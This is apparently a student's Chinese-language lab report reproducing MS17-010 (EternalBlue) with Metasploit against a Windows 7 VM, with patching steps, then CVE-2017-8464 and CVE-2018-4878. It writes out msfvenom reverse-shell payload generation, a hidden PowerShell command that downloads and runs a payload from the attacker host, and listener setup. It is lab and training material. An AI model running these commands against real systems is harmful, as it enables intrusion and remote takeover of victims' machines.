





# 1、MS17-010 漏洞复现：分别注明 0~3 漏洞利用模块的攻击效果和利用条件，完成漏洞修复。（提供 meterpreter 截图，附学号和时间戳）。
## 1.1 MS17-010 介绍
永恒之蓝漏洞（MS17-010），它的爆发源于 WannaCry 勒索病毒的诞生，该病毒是不法分子利用NSA（National Security Agency，美国国家安全局）泄露的漏洞 “EternalBlue”（永恒之蓝）进行改造而成。该漏洞可以通过TCP的139和445端口，攻击Windows系统的SMB服务，造成远程代码执行。
## 1.2 漏洞利用条件
```text
 1. 防火墙必须允许SMB流量出入 
 2. 目标必须使用SMBv1协议 
 3. 目标必须缺少MS17-010补丁
 4. 目标必须允许匿名IPC $和管道名
```
说明：第一个条件，关闭防火墙即可。第二第三个条件，只要下载的镜像是纯净版系统，没有进过其他改造，就默认满足，第四个条件在做第二个模块的攻击尝试时，忘记配置了，一直没有进攻成功，需要在组策略中配置一下。
## 1.3 环境搭建   
### 1.3.1 启动`kali`，进入 `msf`。
```shell
 # -q 静默启动
 msfconsole -q
```   
   
### 1.3.2 启动 `win7`,并关闭防火墙
   
### `msf` 中搜索 `ms17-010`
```shell
 search ms17-010
```
   
分别有四个攻击模块。   
```text
    #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```   
分析：   
```text
 1. 首先从name中分析可知，0,1 属于攻击模块 `exploit` ; 2,3 属于信息收集模块 `auxiliary`。
 2. 从描述上可以看出 `0` 属于永恒之蓝,基于 `SMB` 的远程攻击windows的内核池。 `1` 属于远程代码执行，`2` 属于远程命令执行，`3`属于 `RCE` 侦察。
```
## 1.4 漏洞复现
### 1.4.1 `exploit/windows/smb/ms17_010_eternalblue` 模块
查看设置：   
```shell
 options
```   
   
查看 `win7` ip，并检查网络：   
   
   
需要配置一下 `RHOSTS`:   
```shell
 set RHOSTS 192.168.228.134
```
   
开始攻击：
```shell
 exploit
```   
   
攻击成功。    
### 1.4.2 `exploit/windows/smb/ms17_010_psexec` 模块   
还原 `win7` 和`kali`：
    
 
关闭防火墙：   
   
使用`exploit/windows/smb/ms17_010_psexec`模块：   
   
查看配置项：   
```shell
 options
```   
   
设置 `RHOSTS`:   
```shell
 set RHOSTS 192.168.228.134
```    
攻击:   
```shell
 exploit
```   
   
未攻击成功，原因是因为未配置组策略，下面配置`win7`系统中组策略：   
运行：   
```shell
 gpedit.msc
```   
   
本地组配置：   
   
重启。   
重新攻击：   
   
攻击成功。    
从漏洞利用复现的过程中，我们发现，第一个模块在未配置本地组策略的时候就可以攻击成功，而第二个模块就不行了。   
### 1.4.3 `auxiliary/admin/smb/ms17_010_command` 模块   
恢复 `kali` 和 `win7` 系统。   
关闭防火墙：   
   
使用 `auxiliary/admin/smb/ms17_010_command` 模块：   
   
查看配置：   
```shell
 options
```   
   
和前面配置不同，除了需要配置一个 `RHOSTS` 之外，还需要配置一个 `COMMAND` ，从描述中可以看出，这个是我们想在远程机器上运行的指令，我们做如下配置：   
```shell
 set RHOSTS 192.168.228.134
 #查看ip地址
 set COMMAND ipconfig
```   
攻击：   
```shell
 exploit
```   
未成功。   
   
尝试关闭组策略：   
   
重启。   
重新攻击：   
```shell
 exploit
```   
   
攻击成功，命令成功执行。   
由此也可以看出，此模块攻击也需要条件4满足。   
### 1.4.4 `auxiliary/scanner/smb/smb_ms17_010` 模块
恢复 `kali` 和 `win7` 系统。   
关闭防火墙：   
   
使用第4个模块：   
   
查看配置：   
```shell
 options
```  
设置 `RHOSTS`:   
```shell
 set RHOSTS 192.168.228.134
```  
开始攻击：   
```shell
 exploit
```   
结果：   
    
并没有拿到 `meterpreter`, 但是提示我们此host存在 `ms17-010` 漏洞。原因是此模块本身就属于 `auxiliary` 模块，此模块属于信息收集类的，所以主要用于扫描和收集信息的，并不是上面的攻击模块。   
但是我们发现，此模块也不需要条件4就可以攻击成功。    
## 1.5 利用条件总结   
 | 模块 | 防火墙必须允许SMB流量出入 | 目标必须使用SMBv1协议 | 目标必须缺少MS17-010补丁 | 目标必须允许匿名IPC $和管道名 |
 | ---- | ---- | ---- | ---- |
 |`exploit/windows/smb/ms17_010_eternalblue`|√|√|√||
 |`exploit/windows/smb/ms17_010_psexec`| |√|√|√|√|
 |`auxiliary/admin/smb/ms17_010_command`| |√|√|√|√|
 |`auxiliary/scanner/smb/smb_ms17_010`| |√|√|√||
## 1.6 漏洞的修复
### 1.6.1 打开防火墙
   
### 1.6.2 安装补丁
搜索对应的补丁编号：   
   
根据编号，到官网进行下载：  
```url
 https://www.catalog.update.microsoft.com/Home.aspx
```   
   
安装证书。   
   
* `KB4012212` 安装失败，尝试安装 `KB4012215`依然失败。更换系统重新安装之后，成功解决。   
    
为确保重新安装的系统攻击前后效果，复现下模块一的进攻，过程省略，只提供最终截图：   
    
安装补丁，还原kali重新攻击：   
   
   
攻击失败：


# 2、CVE-2017-8464、CVE-2018-4878 漏洞复现
## 2.1 CVE-2017-8464
### 2.1.1 漏洞介绍
`CVE-2017-8464`（震网三代） 是远程命令执行漏洞，是 windows 系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘，网络共享等途径触发漏洞，完全控制用户系统，安全风险高危。   
### 2.1.2 影响版本
```text
 cpe:2.3⭕️microsoft:windows_10:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:1511:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:1607:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:1703:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_7:-:sp1:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_8.1:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_rt_8.1:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2008:-:sp2:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2008:r2:sp1:*:*:*:*:itanium:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows server 2008:r2:sp1:*:*:*:*:x64:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_10:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2012:-:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2012:r2:*:*:*:*:*:*:* Show Matching CPE(s)
 cpe:2.3⭕️microsoft:windows_server_2016:-:*:*:*:*:*:*:* Show Matching CPE(s)
```   
### 2.1.3 漏洞利用
首先使用在`kali`下使用 `msfvenom` 生成一个反弹shell。   
```shell
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.228.129 lport=4444 -f psh-reflection > ~/test.ps1
```   
   
将此文件复制到web服务的根目录下：   
```shell
 mv test.ps1 /var/www/html/test.ps1
```   
    
启动一个web服务，可以访问这个文件。   
```shell
 service apache2 start
```   
   
win7(靶机) 可以正常访问该文件   
   
win7(靶机) 上创建快捷方式：   
   
并写入指令：   
```shell
 powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.228.129/test.ps1');test1.ps1"
```   
   
   
kali 开启监听：   
```shell
 search multi/handler
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST 192.168.228.129
```   
   
开启监听：   
```shell
 exploit
```   
   
在 win7 上运行刚才创建的快捷方式：   
   
查看kali监听：   
   
成功获得shell。
## 2.2 CVE-2018-4878   
### 2.2.1 简介   
 2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明Adobe Flash 28.0.0.137及其之前的版本，存在高危漏洞（CVE-2018-4878）。攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被“远程代码执行”，并且直接被getshell。 
### 2.2.2 影响的版本
   
### 2.2.3 漏洞利用   
生成漏洞利用代码：   
```shell
 msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.228.129 lport=4444 -f python>medjed_shellcode.txt
```   
   
查看生成的文件：   
```shell
 cat medjed_shellcode.txt
```   
   
下载py文件，并修改替换其中的内容：   
   
修改文件路径：   
   
执行py文件：   
```shell
 python2 cve-2018-4878.py
```   
   
将文件移至网站根目录：   
```shell
mv ./* /var/www/html/
```
   
启动web服务：   
```shell
 service apache2 start
```
   
配置和启动kali监听：   
   
安装 adobe ：   
   
   
win7(靶机)访问index2.html:   
   
观察kali监听：   
* 问题：   
   
* 解决：原因是 `payload` 设置有问题：   
```shell
 #错误设置
 set payload windows/x64/meterpreter/reverse_tcp
 #正确设置
 set payload windows/meterpreter/reverse_tcp
```   
   
攻击成功。

